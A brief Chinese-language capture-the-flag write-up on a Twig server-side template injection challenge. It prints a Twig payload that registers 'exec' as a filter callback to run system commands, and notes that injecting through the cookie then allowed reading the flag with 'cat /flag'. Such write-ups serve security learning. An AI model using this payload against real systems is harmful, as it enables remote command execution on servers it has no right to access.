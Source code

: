 一眼 ssti，对应模板引擎是 Twig

![ssti](ssti.png)

用 payload 打，发现被过滤了

```payload
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

试了很多 payload 并没有打通，但是在 Response 回显里面发现 cookie 会记录 username 的发包，所以这里我尝试直接在 cookie 里面发包

![ssti](id.png)

直接 `cat%20/flag`




